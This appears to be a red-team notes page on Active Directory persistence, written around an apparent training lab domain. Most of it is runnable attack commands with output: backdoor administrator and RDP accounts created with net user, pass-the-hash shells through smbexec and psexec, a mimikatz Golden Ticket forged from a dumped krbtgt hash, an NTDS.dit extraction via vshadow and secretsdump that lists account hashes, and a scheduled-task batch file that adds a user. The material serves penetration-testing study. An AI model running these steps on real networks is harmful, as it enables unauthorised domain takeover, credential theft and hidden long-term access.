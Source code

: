 # Active Directory Persistence

Techniques aimed at maintaining an attacker's foothold on the target network.
Could be employed during penetration testing or red-teaming exercises whose rules of engagement mandate we retain long-term access to the compromised environment.

- <https://attack.mitre.org/tactics/TA0003/>








After gaining the the system/root access of the system.
Adding another root/administrator user to the system for future access so that you don't have to hack into again.

1. Inject admin group user
net user tmp PW /add
net localgroup Administrator tmp /add
Then use winrm/rdp to access if available
2. If you own the admin creds/hash
smbexec.py for administrator shell
smbexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
smbexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH
psexec.py for system shell
psexec.py DOMAIN/ADMIN_USERNAME:ADMIN_PASSWORD@TARGET_IP
psexec.py DOMAIN/ADMIN_USERNAME@TARGET_IP -hashes NTHASH:NTHASH




net user hacker hacker123 /add
net localgroup Administrators hacker /add
net localgroup "Remote Desktop Users" hacker /ADD







## Golden Ticket
If we can get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, also known as golden tickets.

Although this technique's name resembles the Silver Ticket, Golden Tickets provide a more powerful attack vector.

While Silver Tickets aim to forge a TGS ticket to access a specific service, Golden Tickets give us permission to access the entire domain's resources.


The best advantage is that the krbtgt account password is not automatically changed. This password is only changed when the DOMAIN FUNCTIONAL LEVEL is upgraded from a pre-2008 Windows server, but not from a newer version. Because of this, it is not uncommon to find very old krbtgt password hashes.
(The Domain Functional Level dictates the capabilities of the domain and determines which Windows operating systems can be run on the domain controller. Higher functional levels enable additional features, functionality, and security mitigations. See: <https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/active-directory-functional-levels>)




Example:

1.
To test this persistence technique, we will first attempt to laterally move from the Windows 11 `CLIENT74` workstation to the domain controller via `PsExec` as the `jen` user by spawning a traditional command shell with the cmd command. This should fail because we do not have the proper permissions.
```
PsExec64.exe \\DC1 cmd.exe
# Output: Access is denied.
```


2.
Requisite: have access to a Domain Admin's group account or to have compromised the domain controller itself.

To simulate this, we'll log in to the domain controller with remote desktop using the jeffadmin account. Then we will run:
```
privilege::debug
lsadump::lsa /patch

# Output:
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```

We obtained the NTLM hash of the krbtgt account, along with the domain SID, we can now forge and inject our golden ticket.


Now on the normal user account (jen):

Before we generate the golden ticket let's launch mimikatz and delete any existing Kerberos tickets
```
kerberos::purge
```

Then create the golden ticket:
```
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
```

With the golden ticket injected into memory, let's use `PsExec` to launch a new command prompt with `misc::cmd`.

```
misc::cmd

C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe
C:\Tools\SysinternalsSuite>whoami
# Output: corp\jen
C:\Tools\SysinternalsSuite>whoami /groups
...
CORP\Domain Admins
...
```
We verified that our user jen is now part of the Domain Admin group.

Note that by creating our own TGT and then using PsExec, we are performing the overpass the hash attack by leveraging Kerberos authentication.

If we were to connect `PsExec` to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked.


































## Shadow Copies

A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows the creation of snapshots of files or entire volumes.

- <https://en.wikipedia.org/wiki/Shadow_Copy>


To manage volume shadow copies, the Microsoft signed binary `vshadow.exe` is offered as part of the Windows SDK.

As domain admins, we can abuse the vshadow utility to create a Shadow Copy that will allow us to extract the Active Directory Database `NTDS.dit` database file. Once we've obtained a copy of the database, we need the SYSTEM hive, and then we can extract every user credential offline on our local Kali machine.



Connected as domain admin user to the DC1 domain controller, launch an elevated command prompt and run the vshadow utility with `-nw` options to disable writers, which speeds up backup creation and include the `-p` option to store the copy on disk.

```
vshadow.exe -nw -p  C:

# Output:
...
- Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
...
```

Once the snapshot has been taken successfully, we should take note of the shadow copy device name.
Then copy the whole AD Database from the shadow copy to the `C:` drive root folder by specifying the shadow copy device name and adding the full `ntds.dit` path.
```
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
```

Finally, to correctly extract the content of ntds.dit, we need to save the SYSTEM hive from the Windows registry. We can accomplish this with the `reg` utility and the `save` argument.
```
reg.exe save hklm\system c:\system.bak
```


Once the two `.bak` files are moved to our Kali machine, we can continue extracting the credential materials with the `secretsdump` tool from the `impacket` suite. We'll supply the ntds database with the `-ntds` parameter and the system hive with the `-system` parameter. Then we will tell impact to parse the files locally by adding the LOCAL keyword.

```
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL

# Output:
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
...
```

We managed to obtain NTLM hashes and Kerberos keys for every AD user. We can now try to crack them or use as-is in pass-the-hash attacks!


NOTE: while these methods might work fine, they leave an access trail and may require us to upload tools.

An alternative is to abuse AD functionality itself to capture hashes remotely from a workstation. To do this, we could move laterally to the domain controller and run Mimikatz to dump the password hash of every user, using the DC sync method. This is a less conspicuous persistence technique that we can misuse.













## Using Scheduled Tasks

Example: the goal of the attacker is to create a user named “User123” and add it to a relevant group for it to be able to run an RDP. The attacker chose not to do this manually by hand, but with a scheduled task.

Scheduled Task name: "update-daily"
File: C:\Users\[VICTIM]\Documents\important.bat
```
@echo off
net user /add User123 pass
net localgroup "Remote Desktop Users" User123 /add
```